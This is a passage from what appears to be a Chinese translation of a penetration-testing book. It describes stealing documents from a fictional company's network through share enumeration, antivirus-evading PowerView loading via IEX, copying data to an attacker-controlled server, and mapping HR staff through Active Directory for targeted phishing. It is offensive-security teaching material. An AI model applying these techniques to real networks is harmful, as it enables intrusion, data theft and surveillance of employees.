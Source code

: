 为了恢复压缩的文档，我们下载了文本文件，然后在Linux上使用base64命令对其进行解码。 `FrontGun$ cat data.txt | base64 -d > documents.zip`

现在我们知道如何获取数据了,让我们来进一步挖掘一些价值!

## 5.2 战略文件

敏感的商业文件一般存放在如下两个地方:

* 服务器\(有时是工作站\)上的网络共享。
* 用户工作站，通常是VIP、HR、市场营销和会计人员的计算机。

从10.10.20.118上的RDP会话中，我们可以列出远程服务器上的网络共享，直到我们访问成功！:

```bash
>    net view \\10.10.20.229 /all
Share name Type Used as Comment

--------------------------------------------
ADMIN$        Disk        Remote Admin 
C$    Disk    Default share 
Common        Disk
ExCom    Disk
IPC$    IPC    Remote IPC
Marketing    Disk
```

PowerView.ps1 \[75\]使用Invoke-ShareFinder提供了相同的选项，该工具查找域中的每个可用主机并列出其共享: ![xxx&#x793A;&#x610F;&#x56FE;](.gitbook/assets/5.2-1.jpg) 提示：我们使用invoke-expression（IEX）加载脚本，以免触发防病毒系统告警。

我们将所需的任何目录复制到我们控制的Windows服务器上，将其压缩并使用前面介绍的技术进行窃取。 通常我们可以得到足够的网络共享数据，使整个公司蒙羞七次，直到星期日。

如果我们想要更进一步，我们可以针对特定的用户钓鱼和获取信息。要做到这一点，我们需要知道哪些人在公司内部担任关键职位。

我们轻轻向AD域查询员工的职位和部门，从而映射整个组织架构。有了特权访问权限，我们可以远程检索他们计算机的任何文件，甚至可以记录按键操作、启用摄像头、获取记录等。我们从PowerView执行Get-NetUser来列出HR的工作人员:

```text
PS > Get-NetUser -filter "department=HR*"

name    : Juliette 
company        : SPH
description    : Head of HR
department    : HR
lastlogontimestamp    : 12/30/2016 6:25:47 PM
physicaldeliveryofficename : HR department
title    : HR manager
[…]
name    : mark
company    : SPH
department    : HR
displayname    : mark
pwdlastset    : 12/29/2016 9:27:08 PM
[…]
```
